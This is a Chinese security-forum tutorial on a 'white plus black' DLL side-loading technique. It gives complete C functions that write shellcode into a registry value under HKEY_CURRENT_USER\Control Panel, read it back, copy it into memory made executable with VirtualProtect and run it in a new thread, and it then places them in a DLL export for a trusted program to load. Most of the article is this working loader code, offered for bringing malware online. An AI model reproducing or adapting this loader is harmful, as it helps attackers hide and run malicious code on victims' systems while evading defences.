








# 白加黑写入Shellcode到注册表上线 - 先知社区

白加黑写入Shellcode到注册表上线

- - -

其实本质就是将shellcode写入到注册表中，然后读取注册表中的shellcode，然后创建线程去执行shellcode。

如下图:

[](https://xzfile.aliyuncs.com/media/upload/picture/20240107121810-c45f6a16-ad13-1.png)

## 写入注册表shellcode

这里将shellcode写入到注册表中，在我们需要的时候再去读取然后执行。

这里用到如下两个Windows API函数。

```plain
RegOpenKeyExA
RegSetValueExA
```

## RegOpenKeyExA

```plain
LSTATUS RegOpenKeyExA(
  [in]           HKEY   hKey,
  [in, optional] LPCSTR lpSubKey,
  [in]           DWORD  ulOptions,
  [in]           REGSAM samDesired,
  [out]          PHKEY  phkResult
);
```

第一个参数需要的是打开注册表的句柄。

第二个参数表示要打开注册表子项的句柄。

第三个参数表示指定要在打开密钥时应用的选项。

最重要是的是第四个参数是对注册表的访问权限，因为我们要在注册表下创建一个String Value，所以这里的权限我们设置为KEY\_SET\_VALUE即可。

如下代码:

```plain
RegOpenKeyExA(HKEY_CURRENT_USER,REGISTRY,0,KEY_SET_VALUE,&keys);
```

接下来就是设置注册表的值了。

这里使用的是RegSetValueExA函数 如下:

```plain
LSTATUS RegSetValueExA(
  [in]           HKEY       hKey,
  [in, optional] LPCSTR     lpValueName,
                 DWORD      Reserved,
  [in]           DWORD      dwType,
  [in]           const BYTE *lpData,
  [in]           DWORD      cbData
);
```

第一个参数就是注册表的句柄，而且它的权限必须是KEY\_SET\_VALUE，也就是我们上面设置的。

第二个参数是我们要设置值的名称，就是注册表里面值得名称，第三个参数是保留参数必须为0，第四个参数是注册表里面值得类型，这里指定为REG\_BINARY，表示任意的二进制数据，这里可以参考微软官网: [Registry value types - Win32 apps | Microsoft Learn](https://learn.microsoft.com/zh-cn/windows/win32/sysinfo/registry-value-types)

第五个参数表示你要存储的数据，也就是你的shellcode，最后一个参数是你shellcode的大小。

如下代码实现:

```plain
#define REGISTRY "Control Panel" //这里是写入注册表的目录 也就是 计算机\HKEY_CURRENT_USER\Control Panel
#define REGSTRING "relaysec" //定义你注册表写入值得名字
BOOL WirteShellcodeRegister(PBYTE shellcode,DWORD shellcodeSize) {
     BOOL        bs = TRUE;
     LSTATUS     sts = NULL;
     HKEY        keys = NULL;
     sts = RegOpenKeyExA(HKEY_CURRENT_USER,REGISTRY,0, KEY_SET_VALUE, &keys);
     if(sts == NULL){
         bs = FALSE;
     }
     sts = RegSetValueExA(keys, REGSTRING, 0, REG_BINARY, shellcode, shellcodeSize);
     if(sts == NULL){
         bs = FALSE;
     }
_EndOfFunction:
    if (keys)
        RegCloseKey(keys);
    return bs;
}
```

成功写入:

[](https://xzfile.aliyuncs.com/media/upload/picture/20240107121839-d5a1d926-ad13-1.png)  
写入之后我们接下来要进行读取注册表中的shellcode。

## 读取注册表shellcode

这里需要用到如下的Windows API函数:

```plain
RegGetValueA
HeapAlloc
```

## RegGetValueA

```plain
LSTATUS RegGetValueA(
  [in]                HKEY    hkey,
  [in, optional]      LPCSTR  lpSubKey,
  [in, optional]      LPCSTR  lpValue,
  [in, optional]      DWORD   dwFlags,
  [out, optional]     LPDWORD pdwType,
  [out, optional]     PVOID   pvData,
  [in, out, optional] LPDWORD pcbData
);
```

第一个参数依旧是注册表项的句柄，而且必须是KEY\_QUERY\_VALUE权限的。

第二个参数填写注册表的路径，它将从子项中检索注册表的值。

第三个参数表示注册表的名称。

第四个参数用于限制数据类型，如果值的数据类型不符合此条件，则函数将失败，这里我们设置RRF\_RT\_ANY即可，没有类型限制。

第五个参数是存储在指定值中的数据类型的代码，一般设置为NULL。

第六个参数表示接收存储在指定值的指针，如果不需要值得话也可以设置为NULL。

最后一个参数接收值数据的缓冲区的指针，这里我们设置接收一下即可。

如下完整代码：

```plain
BOOL ReadShellcodeRegister(PBYTE* shellcode, SIZE_T* shellcodeSize) {
    LSTATUS    sts = NULL;
    DWORD       dread = NULL;
    PVOID       ps = NULL;
    sts = RegGetValueA(HKEY_CURRENT_USER, REGISTRY, REGSTRING, RRF_RT_ANY, NULL, NULL, &dread);
    if (sts !=0L) {
        return FALSE;
    }
    ps = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, dread);
    if (ps == NULL) {
        return FALSE;
    }
    sts = RegGetValueA(HKEY_CURRENT_USER, REGISTRY, REGSTRING, RRF_RT_ANY, NULL, ps, &dread);
    if (sts != 0L) {
        return FALSE;
    }
    *shellcode = (PBYTE)ps;
    *shellcodeSize = dread;
    return TRUE;
}
```

这里为什么要读取两次，因为第一次读取的是注册表项，第二次才是值。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240107121906-e5cb2712-ad13-1.png)  
读取到值之后然后赋值给shellcode。

读取完成之后就是执行了，这里我们使用创建线程的方式去执行。

首先申请一块内存:

```plain
BOOL executeShellcode(PVOID shellcode, SIZE_T shellcodeSize){
     DWORD dwOldProtection = NULL;
     PVOID shellcodeAddress = shellcodeAddress = VirtualAlloc(NULL, shellcodeSize, MEM_COMMIT | MEM_RESERVE,      PAGE_READWRITE);
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240107121913-e9cb5f4e-ad13-1.png)  
申请内存之后将shellcode复制进去。

```plain
BOOL executeShellcode(PVOID shellcode, SIZE_T shellcodeSize){
     DWORD dwOldProtection = NULL;
     PVOID shellcodeAddress = shellcodeAddress = VirtualAlloc(NULL, shellcodeSize, MEM_COMMIT | MEM_RESERVE,      PAGE_READWRITE);
     if (shellcodeAddress == NULL) {
            return FALSE;
    }
     memcpy(shellcodeAddress, shellcode, shellcodeSize);
     memset(shellcode, '\0', shellcodeSize);
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240107121920-edc47054-ad13-1.png)  
copy进去之后将权限更改为PAGE\_EXECUTE\_READWRITE，然后创建线程执行。

```plain
BOOL executeShellcode(PVOID shellcode, SIZE_T shellcodeSize){
     DWORD dpOld = NULL;
     PVOID shellcodeAddress = shellcodeAddress = VirtualAlloc(NULL, shellcodeSize, MEM_COMMIT | MEM_RESERVE,      PAGE_READWRITE);
     if (shellcodeAddress == NULL) {
            return FALSE;
    }
     memcpy(shellcodeAddress, shellcode, shellcodeSize);
     memset(shellcode, '\0', shellcodeSize);
      if (!VirtualProtect(shellcodeAddress, shellcodeSize, PAGE_EXECUTE_READWRITE, &dpOld)) {
            return FALSE;
     }
     getchar();

    if (CreateThread(NULL, NULL, (LPTHREAD_START_ROUTINE)shellcodeAddress, NULL, NULL, NULL) == NULL) {
        return FALSE;
    }

    return TRUE;
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240107121925-f10ee348-ad13-1.png)

## 集成到白加黑中

我们直接将前面所写的写入，读取，执行这三部的代码copy到dll中，然后放到导出函数去执行即可。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240107121930-f43c4650-ad13-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240107121937-f8647ad6-ad13-1.png)
